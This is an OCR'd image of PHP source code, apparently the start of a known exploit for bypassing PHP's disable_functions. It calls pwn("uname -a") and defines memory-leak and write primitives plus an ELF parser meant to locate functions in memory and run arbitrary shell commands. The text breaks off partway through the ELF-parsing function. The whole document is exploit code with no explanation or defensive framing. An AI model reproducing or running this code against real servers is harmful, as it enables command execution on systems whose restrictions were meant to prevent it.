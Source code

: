 ```php

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper;

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

```